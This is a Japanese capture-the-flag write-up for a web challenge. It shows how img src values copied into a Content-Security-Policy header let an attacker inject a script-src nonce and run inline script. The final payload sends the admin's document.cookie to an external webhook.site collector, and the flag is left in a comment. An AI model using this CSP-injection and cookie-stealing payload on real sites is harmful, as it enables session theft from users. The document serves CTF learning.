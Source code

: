 # Writeup

[csp1.sf.ctf.so](http://csp1.sf.ctf.so/) にアクセスすると、入力フォームが表示される。

![](img/2021-06-20-12-58-22.png)

scriptタグでXSSを試みる。

```js
<script>document.write("hoge");</script>
```

スクリプトの実行はContent Security Policy(CSP)によって防がれている。

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-j6r2Eh5tpXDVkX3teOfQfOcZzBMcX025w27wtNr3XAc='), or a nonce ('nonce-...') is required to enable inline execution.
```

ソースコードを見ると、imgタグのsrc要素の値をCSPのヘッダに含めることができると分かる。

```py
def filter_url(urls):
    domain_list = []
    for url in urls:
        domain = urllib.parse.urlparse(url).scheme + "://" + urllib.parse.urlparse(url).netloc
        if domain:
            domain_list.append(domain)
    return " ".join(domain_list)

def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```

scriptタグを実行させるためには`script-src 'none'`の部分をどうにかして無効化しなくてはならない。

CSPヘッダに挿入される値はURLパースされるが、ドメイン部分に`/`が来るまで自由な値が書ける。

これを利用して以下のような入力をすると、

```
<img src="https://webhook.site ;script-src 'nonce-hoge'"/>
```

CSPヘッダは次のようになる。

```
Connection: keep-alive
Content-Encoding: gzip
Content-Security-Policy: default-src 'none'; connect-src 'self'; img-src 'self' https://webhook.site ;script-src 'nonce-hoge'; script-src 'none'; style-src 'self'; base-uri 'self'; form-action 'self'
Content-Type: text/html; charset=utf-8
Date: Sun, 20 Jun 2021 11:10:56 GMT
Server: nginx/1.18.0 (Ubuntu)
Transfer-Encoding: chunked
```

このようにCSPヘッダを設定すると、`<script nonce="hoge"></script>`内のスクリプトが実行できるようになるので、XSSを行う。

```js
<img src="https://webhook.site ;script-src 'nonce-hoge'"/>
<script nonce="hoge">location.href="https://webhook.site/e27c0501-e42a-4eb9-a573-ef6cf99e8f90/?q="+document.cookie;</script>
```

あとは[uv.ctf.so](https://uv.ctf.so/)を使い、adminユーザーに上記スクリプトが実行される`http://csp1.ny.ctf.so/display/664f79ba-dccc-4589-9048-960aa0b9b4e3`にアクセスしてもらえばcookieを取得できる。

![](img/2021-06-20-21-54-41.png)

<!-- we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>} -->

